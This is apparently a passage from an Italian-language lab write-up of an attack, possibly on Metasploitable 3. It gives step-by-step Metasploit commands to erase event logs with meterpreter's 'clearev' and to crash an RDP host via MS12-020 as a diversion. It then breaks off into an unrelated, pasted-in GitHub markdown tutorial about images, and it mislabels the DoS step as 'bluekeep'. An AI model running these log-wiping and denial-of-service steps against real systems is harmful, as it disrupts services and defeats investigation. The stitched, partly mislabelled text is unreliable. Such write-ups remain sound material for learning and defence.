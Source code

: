 ## Eliminazione tracce
Una volta eseguito l'attacco, abbiamo cercato di eliminare quante più tracce possibili per ridurre le possibilità di rilevamento e investigazione.

**1)Eliminazione logs**: Eliminare i logs digitando il comando: ```clearev``` nella sessione meterpreter.

## Attacco DOS
Infine, abbiamo eseguito un attacco DoS (Denial of Service) sfruttando la vulnerabilità *CVE-2012-0002* che causa un buffer overflow. Questo è stato fatto per sviare l'attenzione del difensore dall'attacco effettivo, concentrando le sue risorse su questo evento.
Questo modulo sfrutta la vulnerabilità RDP MS12-020. Il difetto può essere riscontrato nel modo in cui viene gestito il pacchetto T.125 ConnectMCSPDU nel campo maxChannelIDs, che risulterà nell'utilizzo di un puntatore non valido, causando quindi una condizione di negazione del servizio. 

**1)Aprire Metasploit**: Aprire il terminale e digitare il comando per avviare Metasploit:```msfconsole```.

**2)Caricare il modulo**: Una volta aperto Metasploit, caricare il modulo ```auxiliary/scanner/rdp/ms12_020_check``` per vedere se la macchina è vulnerabile a questo attacco.

**3)Impostare l'host bersaglio (RHOSTS)**: Specificare l'indirizzo IP del sistema bersaglio: ```set RHOSTS 10.0.2.4```

**4)Lanciare il modulo**: eseguire ```run``` .

Se il la macchina è vulnerabile proseguire.

**5)Caricare il modulo bluekeep**: Una volta aperto Metasploit, caricare il modulo ```dos/windows/rdp/ms12_020_maxchannelids```.

**6)Impostare l'host bersaglio (RHOSTS)**: Specificare l'indirizzo IP del sistema bersaglio: ```set RHOSTS 10.0.2.4```

**4)Lanciare il modulo**: eseguire ```run``` .

##### Riferimenti:
https://tremblinguterus.blogspot.com/2020/11/metasploitable-3-windows-walkthrough_88.html?m=1
https://www.rapid7.com/db/modules/auxiliary/dos/windows/rdp/ms12_020_maxchannelids/



## Images
Images have a similar syntax to links but include a preceding exclamation point.

```markdown
![Image of Minion](https://octodex.github.com/images/minion.png)
```
![Image of Minion](https://octodex.github.com/images/minion.png)

and using a local image (which also displays in GitHub):

```markdown
![Image of Octocat](images/octocat.jpg)
```